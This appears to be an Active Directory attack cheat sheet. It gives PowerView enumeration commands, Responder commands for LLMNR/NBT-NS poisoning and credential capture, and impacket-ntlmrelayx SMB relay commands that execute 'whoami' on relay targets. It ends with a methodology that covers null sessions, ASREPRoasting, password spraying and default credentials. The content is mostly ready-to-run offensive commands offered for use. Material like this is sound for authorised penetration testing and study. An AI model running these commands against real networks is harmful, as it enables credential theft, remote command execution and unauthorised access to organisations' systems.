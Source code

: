 ## Enumerate Group Policy Objects with PowerView
```powershell
Get-DomainGPO
Get-DomainGPO | Select-Object displayname,gpcfilesyspath
```

## Find local admin access with PowerView
```powershell
Find-LocalAdminAccess
Test-AdminAccess
```

## Enumerate logged on users with PowerView
```powershell
Get-NetLoggedon -ComputerName DC01
Get-NetSession -ComputerName DC01
```

## Check for LLMNR/NBT-NS poisoning opportunities
```bash
responder -I eth0 -A
```

## Run Responder for credential capture
```bash
responder -I eth0 -wrf
```

## Setup ntlmrelayx for SMB relay attacks
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```

---

## Methodology

### Initial Enumeration Strategy
Start with anonymous/null session access before attempting authenticated enumeration:

**Phase 1 - Anonymous Discovery:**
1. Test null sessions on LDAP, SMB, RPC
2. Extract user lists from any accessible service
3. Compile comprehensive username list
4. Identify domain controllers and infrastructure

**Phase 2 - Credential Acquisition:**
1. ASREPRoast discovered users (no credentials needed)
2. Password spraying with common passwords
3. Responder/LLMNR poisoning (if on internal network)
4. Check for default credentials
